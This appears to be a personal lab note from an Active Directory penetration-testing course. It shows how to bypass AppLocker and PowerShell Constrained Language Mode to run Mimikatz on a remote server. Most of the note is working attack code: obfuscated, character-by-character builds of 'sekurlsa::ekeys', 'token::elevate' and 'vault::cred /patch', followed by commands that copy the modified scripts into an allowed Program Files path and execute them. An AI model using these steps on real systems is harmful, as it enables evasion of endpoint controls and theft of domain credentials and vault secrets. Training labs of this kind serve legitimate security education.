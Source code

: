 View constrained language type
```powershell
$ExecutionContext.SessionState.LanguageMode
```

View Policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Default rules are to allow **Everyone** to access and run scripts from `C:\Program Files` and `C:\Windows`
![[Pasted image 20250506212949.png]]

In the `Constrained Language Mode`, we can't run scripts using dot sourcing (`. .\Invoke-Mimi.ps1`). So, we must modify `Invoke-Mimi.ps1 `to include the 
function call in the script itself and transfer the modified script (`Invoke-MimiEx.ps1`) to the target server.

Create `Invoke-MimiEx-keys.ps1`
- Create a copy of Invoke-Mimi.ps1 and rename it to `Invoke-MimiEx-keys.ps1`
- Open `Invoke-MimiEx-keys.ps1 `in PowerShell ISE (Right click on it and click Edit). 
- Add the below encoded value for "sekurlsa::ekeys" to the end of the file

```powershell
$8 = "s";
$c = "e";
$g = "k";
$t = "u";
$p = "r";
$n = "l";
$7 = "s";
$6 = "a";
$l = ":";
$2 = ":";
$z = "e";
$e = "k";
$0 = "e";
$s = "y";
$1 = "s";
$Pwn = $8 + $c + $g + $t + $p + $n + $7 + $6 + $l + $2 + $z + $e + $0 + $s + 
$1 ;
Invoke-Mimi -Command $Pwn
```

Same thing for Credential Vault
```powershell
$a1 = "t"
$a2 = "o"
$a3 = "k"
$a4 = "e"
$a5 = "n"
$a6 = ":"
$a7 = ":"
$a8 = "e"
$a9 = "l"
$a10 = "v"
$a11 = "a"
$a12 = "t"
$a13 = "e"

$b1 = "v"
$b2 = "a"
$b3 = "u"
$b4 = "l"
$b5 = "t"
$b6 = ":"
$b7 = ":"
$b8 = "c"
$b9 = "r"
$b10 = "e"
$b11 = "d"
$b12 = " "
$b13 = "/"
$b14 = "p"
$b15 = "a"
$b16 = "t"
$b17 = "c"
$b18 = "h"

# Build first command: token::elevate
$cmd1 = $a1 + $a2 + $a3 + $a4 + $a5 + $a6 + $a7 + $a8 + $a9 + $a8 + $a10 + $a11 + $a12 + $a4

# Build second command: vault::cred /patch
$cmd2 = $b1 + $b2 + $b3 + $b4 + $b5 + $b6 + $b7 + $b8 + $b9 + $b10 + $b11 + $b12 + $b13 + $b14 + $b15 + $b16 + $b17 + $b18

# Run them
Invoke-Mimi -Command $cmd1 $cmd2
```

Copy to machine and run
```powershell
Copy-Item C:\AD\Tools\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

Copy-Item C:\AD\Tools\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1
```
